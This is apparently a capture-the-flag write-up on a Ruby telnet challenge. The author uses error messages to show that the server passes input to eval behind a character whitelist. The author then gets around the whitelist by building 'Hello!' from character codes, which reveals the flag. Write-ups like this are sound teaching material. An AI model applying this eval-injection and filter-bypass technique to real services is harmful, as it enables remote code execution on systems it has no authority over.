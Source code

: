 # Talk to me
Points: 100  
Bonus (first team to solve): 10  
Topics: ruby  

> An Advicefull Aunt
> Ever since you were a child, your aunt Matilda has nudged you to becoming a hacker like her. The happiest you’ve ever seen a person is when you were 18 and she walked in on you disassembling the VCR. She loved you and had big dreams for you. You didn’t know exactly what she did for a living, but about five months ago she completely disappeared without a word.
> 
> Today is your 20th birthday, and you’re hanging out in your apartment with your roommate, Sam. It’s been a pretty regular morning up until this point except all the electronics in your apartment are on the fritz. Your WiFi enabled toothbrush has been whirling like crazy. Your smart alarm clock keeps beeping and booping. You seriously re-evaluate the merits of your IoT bidet. Everything is a mess.
> 
> “Hey, Sam, did you change anything with the WiFi?”
> “No… oh wait. I found this free ‘Gromecast’ in the parking lot and set it up. It gets free HBO!”
> 
> You walk over to the TV and see a 3D printed Raspberry PI enclosure with a cable going to the TV and another to the router. The enclosure has “Gromecast” and “Free HBO” scrawled on the top in sharpie. You’re going to need to have a talk with Sam after you get this sorted out.
> 
> A quick scan of the port of the device reveal its running a [server](telnet://talk-to-me-dd00922915bfc3f1.squarectf.com:5678).


The server link is using the telnet protocol, something our browser does
not natively speak. So instead we will be using a simple Python client and
the built-in telnetlib to communicate with the server.

Just connecting to the server we get a simple hello message: `b'Hello!\n'`,
and then the connection is closed. So we try to send something back:

```
-> b'Hello!\n'
<- b"Hello!\nSorry, I can't understand you.\n"
[connection closed]

-> b'abc\n'
<- b"Hello!\nSorry, I can't understand you.\n"
[connection closed]
```

Every message seems to result in the same "Sorry, I can't understand you."
reply. However, sending an empty message we get another answer:

```
-> b'\n'
<- b'Hello!\nI wish you would greet me the way I greeted you.\n'
```

It's not very helpful though, as we have already tried sending a "Hello!"
message and that just resulted in the server not understanding us. Instead,
after trying some other more or less random messages, we stumble upon a
much more interesting reply:

```
-> b'0\n'
<- b"Hello!\nundefined method `match' for 0:Integer\n/talk_to_me.rb:16:in `receive_data'\n/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run_machine'\n/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run'\n/talk_to_me.rb:31:in `<main>'\n"
```

Or better formatted it reads like this:

```
undefined method `match' for 0:Integer
/talk_to_me.rb:16:in `receive_data'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run_machine'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run'
/talk_to_me.rb:31:in `<main>'
```

Somehow it seems like our message has been turned into an `Integer`. After
some more testing (such as sending a `"1+1\n"` message and seeing that it
actually says 2 in the error) it seems like the message is not just turned
into an Integer, but it is actually run through `eval`. This is easier to
see in the error message we get back when sending a message representing a
proc:

```
-> b'->{}\n'
<- Hello!
undefined method `match' for #<Proc:0x000055d26adba9b0@(eval):1 (lambda)>
/talk_to_me.rb:16:in `receive_data'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run_machine'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run'
/talk_to_me.rb:31:in `<main>'
```

Compare the above `#<Proc:0x000055d26adba9b0@(eval):1 (lambda)>`
representation to what is returned when running eval in a ruby interpreter
locally:

```ruby
eval("->{}")
=> #<Proc:0x000055aeca93a188@(eval):1 (lambda)>
```

Looks pretty similar to me! :)

As such we might guess that the server implementation looks (simplified)
something like this:

```ruby
def receive_data(msg)
    eval(msg).match(...)
end
```

There is still one piece missing though, and that's the "Sorry, I can't
understand you." message we got when sending normal messages previously.
It turns out that this error is received as soon as the message contains
anything but some whitelisted characters. This can be seen from the below
"conversation" where the stack-trace response is replaced by the sorry
message as soon as an 'a' is added to the sent message.


```
-> b"'1'-0\n"
<- Hello!
undefined method `-' for "1":String
Did you mean?  -@
/talk_to_me.rb:16:in `eval'
/talk_to_me.rb:16:in `eval'
/talk_to_me.rb:16:in `receive_data'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run_machine'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run'
/talk_to_me.rb:31:in `<main>'

-> b'\'11234567890.,-+/;:{}><%"\'-0\n'
<- Hello!
undefined method `-' for "11234567890.,-+/;:{}><%\"":String
Did you mean?  -@
/talk_to_me.rb:16:in `eval'
/talk_to_me.rb:16:in `eval'
/talk_to_me.rb:16:in `receive_data'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run_machine'
/var/lib/gems/2.5.0/gems/eventmachine-1.2.7/lib/eventmachine.rb:195:in `run'
/talk_to_me.rb:31:in `<main>'

-> b"'1a'-0\n"
<- Hello!
Sorry, I can't understand you.
```

Luckily for us the whitelist is permissive enough for us to construct
the string `"Hello!"` by other means, and we are awarded with the flag:

```
-> b"''<<72<<101<<108<<108<<111<<33\n"
<- Hello!
It's so great to talk to you! Maybe you know what to do with this flag-2b8f1139b0726726?
```

(The above ruby magic simply evaluates to the string "Hello!", as can be
seen in our ruby interpreter)
```ruby
''<<72<<101<<108<<108<<111<<33
=> "Hello!"
```

